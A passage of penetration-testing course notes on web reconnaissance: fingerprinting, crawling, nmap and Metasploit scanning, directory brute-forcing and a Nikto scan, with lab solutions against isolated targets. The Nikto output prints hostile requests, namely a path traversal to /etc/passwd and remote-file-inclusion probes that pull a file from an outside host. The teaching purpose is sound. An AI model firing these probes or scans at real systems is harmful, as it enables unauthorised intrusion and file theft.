	- **Purpose**: Used by Adobe Flash applications to allow or restrict resource sharing across different domains.
	- **Use in Information Gathering**: Can indicate which domains have permissions to access resources, potentially exposing cross-domain trust relationships.
	- **Example**:
		```xml
		<cross-domain-policy>
		  <allow-access-from domain="*.example.com" />
		</cross-domain-policy>
		```

6. **web.config**

	- **Purpose**: Configuration file used in ASP.NET applications to define settings like URL rewriting, authentication, and application settings.
	- **Use in Information Gathering**: Can reveal configuration settings and sensitive information about the web application setup.
	- **Example**:
		```xml
		<configuration>
		  <system.web>
		    <authentication mode="Forms">
		      <forms loginUrl="Login.aspx" timeout="30" />
		    </authentication>
		  </system.web>
		</configuration>
		```

### Web App Technology Fingerprinting (with BuiltWith/Wappalyzer/WhatWeb) - Theory

Web Application Technology Fingerprinting is the process of identifying the underlying technologies used in a web application. This includes determining the server software, programming languages, frameworks, content management systems (CMS), JavaScript libraries, and other components that constitute a web application's stack. This information is critical for various purposes such as security assessments, competitive analysis, and understanding the technological landscape of web applications.

**Tools for Web Application Technology Fingerprinting**

**BuiltWith**

BuiltWith is a browser addon that allows users to discover the technologies used by a website. It provides detailed information about the site's web server, hosting providers, SSL certificate details, analytics and tracking tools, frameworks, and much more.

**Wappalyzer**

Wappalyzer is a browser extension that identifies technologies on websites, including CMS, e-commerce platforms, web servers, JavaScript frameworks, analytics tools, and more.

**WhatWeb**

WhatWeb is a command-line tool that identifies websites' technologies by examining their HTTP headers, HTML content, JavaScript, and other elements. It can detect CMS, web servers, programming languages, frameworks, and other components.

`whatweb google.com`:
```
http://google.com [301 Moved Permanently] Country[UNITED STATES][US], HTTPServer[gws], IP[142.250.180.174], RedirectLocation[http://www.google.com/], Title[301 Moved], UncommonHeaders[content-security-policy-report-only], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[0]
http://www.google.com/ [200 OK] Cookies[AEC], Country[UNITED STATES][US], HTML5, HTTPServer[gws], HttpOnly[AEC], IP[142.250.180.132], Script, Title[Google], UncommonHeaders[content-security-policy-report-only], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[0]
```

### Passive Crawling - Theory

#### Crawling

Crawling is the process of navigating around the web application, following links, submitting forms, and logging in (where possible) with the objective of mapping out and cataloging the web application and the navigational paths within it.

Crawling is typically **passive** as engagement with the target is done via what is publicly accessible. We can utilize Burp Suite’s passive crawler to help us map out the web application to better understand how it is set up and how it works.

#### Spidering

Spidering is the process of automatically discovering new resources (URLs) on a web application/site.

It typically begins with a list of target URLs called seeds, after which the Spider will visit the URLs and identify hyperlinks on the page and add them to the list of URLs to visit and repeat the process recursively.

Spidering can be quite loud and as a result, it is typically considered to be an **active** information gathering technique.

We can utilize OWASP ZAP’s Spider to automate the process of spidering a web application to map out the web application and learn more about how the site is laid out and how it works.

### Passive Crawling (with Burp Suite) - Lab

#### Lab Environment

Web Application Pentesting Tools can prove to be very helpful while performing penetration testing. 

In this lab exercise, we will take a look at how to use [Burp Suite](https://portswigger.net/support/burp-suite-tools) to perform passive crawling on the [Mutillidae](https://github.com/webpwnized/mutillidae) web application.

**Objective**: Perform passive crawling on the web application with Burp Suite.

Instructions: 
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address 192.X.Y.2. Run `ip addr` to know the values of X and Y.
- Do not attack the gateway located at IP address 192.X.Y.1

#### Lab Solution

`ip addr`:
```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
357482: eth0@if357483: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:01:00:0a brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.0.10/16 brd 10.1.255.255 scope global eth0
       valid_lft forever preferred_lft forever
357485: eth1@if357486: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:22:bd:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.34.189.2/24 brd 192.34.189.255 scope global eth1 ←
       valid_lft forever preferred_lft forever
```

`nmap -sn 192.34.189.1/24 --exclude 192.34.189.1,192.34.189.2`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-13 18:12 IST
Nmap scan report for target-1 (192.34.189.3) ←
Host is up (0.000031s latency). ←
MAC Address: 02:42:C0:22:BD:03 (Unknown)
Nmap done: 254 IP addresses (1 host up) scanned in 2.02 seconds
```

`nmap -sS -sV -Pn 192.34.189.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-13 18:17 IST
Nmap scan report for target-1 (192.34.189.3)
Host is up (0.0000090s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu)) ←
3306/tcp open  mysql   MySQL 5.5.47-0ubuntu0.14.04.1
MAC Address: 02:42:C0:22:BD:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```

`firefox http://192.34.189.3 &`

The target is running OWASP Mutillidae II.
Configure the firefox browser to use Burp Suite proxy through FoxyProxy.

Start Burp Suite.
Reload the web page, intercept the request and turn off the intercept.

Navigate to **HTTP history** tab and all the visited web pages will appear under this tab.
Navigate to the **Dashboard** tab. The passive crawler statistics are mentioned.

Browse the Mutillidae application and Burp will automatically crawl the visited pages.
Navigate to **Target** tab and the sitemap of the web application will be displayed.

## Active Information Gathering

### Web Server Fingerprinting - Theory

Web Server Fingerprinting is the process of identifying the type and version of web server software running on a system. This technique involves sending various types of requests to the server and analyzing the responses to determine specific characteristics that reveal the server's identity. Common web servers include Apache, Nginx, Microsoft IIS, and others.

**Methods of Web Server Fingerprinting**

1. **Banner Grabbing**

	- **Description**: Involves sending a simple HTTP request to the server and reading the response headers, which often include the server type and version.
	- **Example**:
    ```sh
    curl -I http://example.com
    ```
    This command retrieves the HTTP headers which might include a `Server` field like `Server: Apache/2.4.41 (Ubuntu)`.

2. **HTTP Response Analysis**

	- **Description**: Different web servers and versions respond differently to specific HTTP requests. By analyzing these responses, one can infer the type of server.
	- **Example**: Sending malformed HTTP requests and observing the error messages or behavior.

3. **Using Tools**

	- **Nmap**: A versatile network scanning tool that includes scripts for web server fingerprinting.
	```sh
	nmap -sV --script=http-server-header example.com
	```
	
	- **WhatWeb**: A command-line tool that identifies web technologies, including web servers.
	```sh
	whatweb example.com
	```
	
	- **Nikto**: A web server scanner that identifies server software and checks for vulnerabilities.
	```sh
	nikto -h http://example.com
	```

### Web Server Fingerprinting (with Nmap/Metasploit) - Lab

#### Lab Environment

**Apache Recon: Basics**

In this challenge we will look at the basics of Apache server reconnaissance. Please start the lab and answer the following questions.

**Questions**

1. Which web server software is running on the target server and also find out the version using nmap.
2. Which web server software is running on the target server and also find out the version using suitable metasploit module.
3. Check what web app is hosted on the web server using curl command.
4. Check what web app is hosted on the web server using wget command.
5. Check what web app is hosted on the web server using browsh CLI based browser.
6. Check what web app is hosted on the web server using lynx CLI based browser.
7. Perform bruteforce on webserver directories and list the names of directories found. Use brute_dirs metasploit module.
8. Use the directory buster (dirb) with `/usr/share/metasploit-framework/data/wordlists/directory.txt` dictionary to check if any directory is present in the root folder of the web server. List the names of found directories.
9. Which bot is specifically banned from accessing a specific directory?

Instructions: 
- Once you start the lab, you will have access to a root terminal of a Kali instance.
- Your Kali has an interface with IP address 192.X.Y.Z. Run `ip addr` to know the values of X and Y.
- The Target machine should be located at the IP address 192.X.Y.3.
- Do not attack the gateway located at IP address 192.X.Y.1

#### Lab Solution

`ip addr`:
```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
418039: eth0@if418040: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:01:00:05 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.0.5/16 brd 10.1.255.255 scope global eth0
       valid_lft forever preferred_lft forever
418042: eth1@if418043: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:63:6c:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.99.108.2/24 brd 192.99.108.255 scope global eth1 ←
       valid_lft forever preferred_lft forever
```

`nmap -sn 192.99.108.1/24 --exclude 192.99.108.1,192.99.108.2`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-13 21:22 IST
Nmap scan report for t5h9vydapwqwbai1zlwts2n5c.temp-network_a-99-108 (192.99.108.3) ←
Host is up (0.000039s latency). ←
MAC Address: 02:42:C0:63:6C:03 (Unknown)
Nmap done: 254 IP addresses (1 host up) scanned in 1.95 seconds
```

`searchsploit apache 2.4.18`:
```
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution                                                     | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner                                                   | php/remote/29316.py
Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation                               | linux/local/46676.php
Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak                                                                    | linux/webapps/42745.py
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service                                                                 | multiple/dos/26710.txt
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow                                                | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)                                          | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                          | unix/remote/47080.c
Apache OpenMeetings 1.9.x < 3.1.0 - '.ZIP' File Directory Traversal                                                 | linux/webapps/39642.txt
Apache Tomcat < 5.5.17 - Remote Directory Listing                                                                   | multiple/remote/2061.txt
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal                                                                 | unix/remote/14489.c
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC)                                                           | multiple/remote/6229.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)        | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)        | jsp/webapps/42966.py
Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)                                                        | linux/dos/36906.txt
Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code Execution                                    | linux/remote/34.pl
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

1. Which web server software is running on the target server and also find out the version using nmap.

`nmap -sS -sV -Pn 192.99.108.3`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-13 21:23 IST
Nmap scan report for t5h9vydapwqwbai1zlwts2n5c.temp-network_a-99-108 (192.99.108.3)
Host is up (0.000010s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu)) ←
MAC Address: 02:42:C0:63:6C:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.59 seconds
```

`ls -la /usr/share/nmap/scripts | grep -i "http banner"`

`nmap -sS -sV -p 80 -Pn --script=banner 192.99.108.3`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-14 13:44 IST
Nmap scan report for 43eg5v9c6btl9tmxh8h8cpxse.temp-network_a-43-16 (192.99.108.3)
Host is up (0.000039s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu) ←
MAC Address: 02:42:C0:2B:10:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.53 seconds
```

2. Which web server software is running on the target server and also find out the version using suitable metasploit module.

`msfconsole -q`, `search http version`, `use auxiliary/scanner/http/http_version`, `show options`, `set RHOSTS 192.99.108.3`, `run`:
```
[+] 192.99.108.3:80 Apache/2.4.18 (Ubuntu) ←
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

3. Check what web app is hosted on the web server using curl command.

`curl http://192.99.108.3`

`curl http://192.99.108.3 | grep -i "apache"`:
```
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 11321  100 11321    0     0  9740k      0 --:--:    <title>Apache2 Ubuntu Default Page: It works</title>
-- --:--:-          Apache2 Ubuntu Default Page ←
-                operation of the Apache2 server after installation on Ubuntu systems.
                 It is based on the equivalent page on Debian, from which the Ubuntu Apache
-                If you can read this page, it means that the Apache HTTP server installed at
-:--                Ubuntu's Apache2 default configuration is different from the
:--                /usr/share/doc/apache2/README.Debian.gz</b>. Refer to this for the full
                 found by accessing the <a href="/manual">manual</a> if the <tt>apache2-doc</tt>
1                The configuration layout for an Apache2 web server installation on Ubuntu systems is as follows:
0/etc/apache2/
.|-- apache2.conf
7                           <tt>apache2.conf</tt> is the main configuration
M
                           The binary is called apache2. Due to the use of
                           environment variables, in the default configuration, apache2 needs to be
                           started/stopped with <tt>/etc/init.d/apache2</tt> or <tt>apache2ctl</tt>.
                           <b>Calling <tt>/usr/bin/apache2</tt> directly will not work</b> with the
                <a href="http://httpd.apache.org/docs/2.4/mod/mod_userdir.html">public_html</a>
                document root directory in <tt>/etc/apache2/apache2.conf</tt>.
                Apache2 package with Ubuntu. However, check <a
                href="https://bugs.launchpad.net/ubuntu/+source/apache2">existing
```

4. Check what web app is hosted on the web server using wget command.

`wget -q -O - http://192.99.108.3 > index.html`, `cat index.html | grep -i "apache"`:
```
    <title>Apache2 Ubuntu Default Page: It works</title>
          Apache2 Ubuntu Default Page ←
                operation of the Apache2 server after installation on Ubuntu systems.
                It is based on the equivalent page on Debian, from which the Ubuntu Apache
                If you can read this page, it means that the Apache HTTP server installed at
                Ubuntu's Apache2 default configuration is different from the
                /usr/share/doc/apache2/README.Debian.gz</b>. Refer to this for the full
                found by accessing the <a href="/manual">manual</a> if the <tt>apache2-doc</tt>
                The configuration layout for an Apache2 web server installation on Ubuntu systems is as follows:
/etc/apache2/
|-- apache2.conf
                           <tt>apache2.conf</tt> is the main configuration
                           The binary is called apache2. Due to the use of
                           environment variables, in the default configuration, apache2 needs to be
                           started/stopped with <tt>/etc/init.d/apache2</tt> or <tt>apache2ctl</tt>.
                           <b>Calling <tt>/usr/bin/apache2</tt> directly will not work</b> with the
                <a href="http://httpd.apache.org/docs/2.4/mod/mod_userdir.html">public_html</a>
                document root directory in <tt>/etc/apache2/apache2.conf</tt>.
                Apache2 package with Ubuntu. However, check <a
                href="https://bugs.launchpad.net/ubuntu/+source/apache2">existing
```

5. Check what web app is hosted on the web server using browsh CLI based browser.

`browsh -h`:
```
Usage of browsh:
      --debug                  Log to ./debug.log
      --firefox.path string    Path to Firefox executable (default "firefox")
      --firefox.use-existing   Whether Browsh should launch Firefox or not
      --firefox.with-gui       Don't use headless Firefox
      --http-server-mode       Run as an HTTP service
      --monochrome             Start browsh in monochrome mode
      --startup-url string     URL to launch at startup (default "https://www.brow.sh") ←
      --time-limit int         Kill Browsh after the specified number of seconds
      --version                Output current Browsh version
pflag: help requested
```

`browsh --startup-url http://192.99.108.3`

Use `Ctrl + Q` to exit the browser page.

6. Check what web app is hosted on the web server using lynx CLI based browser.

`lynx http://192.99.108.3`

7. Perform bruteforce on webserver directories and list the names of directories found. Use brute_dirs metasploit module.

`msfconsole -q`, `search http brute dirs`, `use auxiliary/scanner/http/brute_dirs`, `show options`, `set RHOSTS 192.99.108.3`, `run`:
```
[*] Using code '404' as not found.
[+] Found http://192.43.16.3:80/dir/ 200 ←
[+] Found http://192.43.16.3:80/src/ 200 ←
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

`ls -la /usr/share/nmap/scripts | grep -i "http enum"`

`nmap -sV -Pn -p 80 --script=http-enum 192.99.108.3`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-13 21:27 IST
Nmap scan report for t5h9vydapwqwbai1zlwts2n5c.temp-network_a-99-108 (192.99.108.3)
Host is up (0.000037s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-enum: 
|   /robots.txt: Robots file ←
|   /data/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)' ←
|   /dir/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)' ←
|_  /src/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)' ←
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 02:42:C0:63:6C:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.94 seconds
```

8. Use the directory buster (dirb) with `/usr/share/metasploit-framework/data/wordlists/directory.txt` dictionary to check if any directory is present in the root folder of the web server. List the names of found directories.

`dirb http://192.99.108.3 /usr/share/metasploit-framework/data/wordlists/directory.txt`:
```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Jun 13 21:37:08 2024
URL_BASE: http://192.99.108.3/
WORDLIST_FILES: /usr/share/metasploit-framework/data/wordlists/directory.txt

-----------------

GENERATED WORDS: 24                                                            

---- Scanning URL: http://192.99.108.3/ ----
+ http://192.99.108.3//data (CODE:301|SIZE:311) ←                                                                                                      
+ http://192.99.108.3//dir (CODE:301|SIZE:310) ←                                                                                                      
                                                                                                                                                     
-----------------
END_TIME: Thu Jun 13 21:37:08 2024
DOWNLOADED: 24 - FOUND: 2
```

9. Which bot is specifically banned from accessing a specific directory?

`msfconsole -q`, `search http robots`, `use auxiliary/scanner/http/robots_txt`, `show options`, `set RHOSTS 192.99.108.3`, `run`:
```
[*] [192.43.16.3] /robots.txt found
[+] Contents of Robots.txt:
User-agent: *
Disallow: /cgi-bin/
Disallow: Disallow: /junk/

User-agent: BadBot ←
Disallow: /no-badbot-dir/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Web Server Vulnerability Scanning (with Nikto) - Theory/Lab

Nikto is an open-source web server scanner designed to identify potential vulnerabilities in web servers. It performs comprehensive tests against web servers, including checking for outdated versions, misconfigurations, and potentially dangerous files or scripts. Nikto is highly regarded in the cybersecurity community for its effectiveness and simplicity.

**Purpose of Nikto**

Nikto serves several critical purposes in web server security:
1. **Vulnerability Detection**: Identifies various vulnerabilities in web servers, including outdated software, misconfigurations, and known issues.
2. **Security Assessments**: Provides detailed reports on the security posture of a web server, helping administrators understand and mitigate risks.
3. **Compliance**: Assists organizations in meeting security standards and compliance requirements by ensuring their web servers are secure.

**Key Features of Nikto**

- **Comprehensive Scanning**:
    - Tests for over 6,700 potentially dangerous files/CGIs.
    - Checks for outdated versions of over 1,250 servers.
    - Scans for version-specific problems on over 270 servers.

- **Customization and Extensibility**:    
    - Supports custom scan databases and plugins.
    - Users can add their own checks to extend Nikto's functionality.

- **Output Formats**:    
    - Generates reports in various formats, including plain text, XML, HTML, NBE, and CSV.
    - Integration with other tools and systems is simplified by the diverse output options.

- **Support for Multiple Protocols**:    
    - Scans HTTP, HTTPS, HTTPd, and HTTPs on multiple ports.
    - Can test servers using SSL/TLS.

- **Database Updates**:    
    - Regularly updated databases ensure that the latest vulnerabilities and checks are included.

#### Lab Environment

Web Application Pentesting Tools can prove to be very helpful while performing penetration testing. 

In this lab exercise, we will take a look at how to use [Nikto](https://cirt.net/Nikto2) to scan web applications and identify various vulnerabilities.  

**Objective**: Scan the web application with Nikto and identify the possible vulnerabilities. 

Instructions: 
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address 192.X.Y.2. Run `ip addr` to know the values of X and Y.
- Do not attack the gateway located at IP address 192.X.Y.1

#### Lab Solution

`ip addr`:
```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
418039: eth0@if418040: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:01:00:05 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.0.5/16 brd 10.1.255.255 scope global eth0
       valid_lft forever preferred_lft forever
418042: eth1@if418043: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:63:6c:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.99.108.2/24 brd 192.99.108.255 scope global eth1 ←
       valid_lft forever preferred_lft forever
```

`nmap -sn 192.99.108.1/24 --exclude 192.99.108.1,192.99.108.2`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-13 21:22 IST
Nmap scan report for t5h9vydapwqwbai1zlwts2n5c.temp-network_a-99-108 (192.99.108.3) ←
Host is up (0.000039s latency). ←
MAC Address: 02:42:C0:63:6C:03 (Unknown)
Nmap done: 254 IP addresses (1 host up) scanned in 1.95 seconds
```

`nmap -sS -sV -Pn 192.99.108.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-14 14:34 IST
Nmap scan report for target-1 (192.99.108.3)
Host is up (0.000014s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu)) ←
3306/tcp open  mysql   MySQL 5.5.47-0ubuntu0.14.04.1 ←
MAC Address: 02:42:C0:8D:D9:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

Using nikto to scan the discovered webapp.

`nikto`:
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ ERROR: No host or URL specified

       -config+            Use this config file
       -Display+           Turn on/off display outputs
       -dbcheck            check database and other key files for syntax errors
       -Format+            save file (-o) format
       -Help               Extended help information ←
       -host+              target host/URL ←
       -id+                Host authentication to use, format is id:pass or id:pass:realm
       -list-plugins       List all available plugins
       -output+            Write output to this file
       -nossl              Disables using SSL
       -no404              Disables 404 checks
       -Plugins+           List of plugins to run (default: ALL)
       -port+              Port to use (default 80)
       -root+              Prepend root value to all requests, format is /directory
       -ssl                Force ssl mode on port
       -Tuning+            Scan tuning ←
       -timeout+           Timeout for requests (default 10 seconds)
       -update             Update databases and plugins from CIRT.net
       -Version            Print plugin and database versions
       -vhost+             Virtual host (for Host header)
   		+ requires a value

	Note: This is the short help output. Use -H for full help text.
```

Notice that there are some interesting options like `-host`, `-Tuning`, and a more elaborate help
can be displayed using the `-Help` option.

`nikto -Help`

Scan the target using nikto.

`nikto -h http://192.99.108.3 -o ~/Desktop/webapp_nikto.txt -Format txt`:
```
- Nikto v2.1.6/2.1.5
+ Target Host: 192.99.108.3
+ Target Port: 80
+ GET Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.25 ←
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET X-XSS-Protection header has been set to disable XSS Protection. There is unlikely to be a good reason for this. ←
+ GET Uncommon header 'logged-in-user' found, with contents: 
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Cookie PHPSESSID created without the httponly flag
+ GET Cookie showhints created without the httponly flag
+ GET "robots.txt" contains 8 entries which should be manually viewed. ←
+ HEAD Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch. ←
+ CMBFMXAP Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ DEBUG DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ GET /index.php?page=../../../../../../../../../../etc/passwd: The PHP-Nuke Rocket add-in is vulnerable to file traversal, allowing an attacker to view any file on the host. (probably Rocket, but could be any index.php) ←
+ GET /phpinfo.php: Output from the phpinfo() function was found.
+ OSVDB-3268: GET /config/: Directory indexing found.
+ GET /config/: Configuration information may be available remotely. ←
+ OSVDB-12184: GET /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3268: GET /data/: Directory indexing found.
+ OSVDB-3092: GET /data/: This might be interesting...
+ OSVDB-3268: GET /includes/: Directory indexing found.
+ OSVDB-3092: GET /includes/: This might be interesting...
+ OSVDB-3268: GET /passwords/: Directory indexing found.
+ OSVDB-3092: GET /passwords/: This might be interesting...
+ OSVDB-3092: GET /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3092: GET /phpmyadmin/ChangeLog: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: GET /test/: Directory indexing found.
+ OSVDB-3092: GET /test/: This might be interesting...
+ OSVDB-3233: GET /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3233: GET /index.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3268: GET /images/: Directory indexing found.
+ OSVDB-3268: GET /styles/: Directory indexing found.
+ OSVDB-3233: GET /icons/README: Apache default file found.
+ OSVDB-5292: GET /?_CONFIG[files][functions_page]=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /?npage=-1&content_dir=http://cirt.net/rfiinc.txt?%00&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /?npage=1&content_dir=http://cirt.net/rfiinc.txt?%00&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /?show=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?1=lol&PAGES[lol]=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?AML_opensite=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?AMV_openconfig=1&AMV_serverpath=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?CONFIG[MWCHAT_Libs]=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?ConfigDir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?DIR_PLUGINS=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?G_JGALL[inc_path]=http://cirt.net/rfiinc.txt?%00: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?HomeDir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?Lang=AR&Page=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?Madoa=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?RP_PATH=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?_REQUEST=&_REQUEST[option]=com_content&_REQUEST[Itemid=1&GLOBALS=&mosConfig_absolute_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
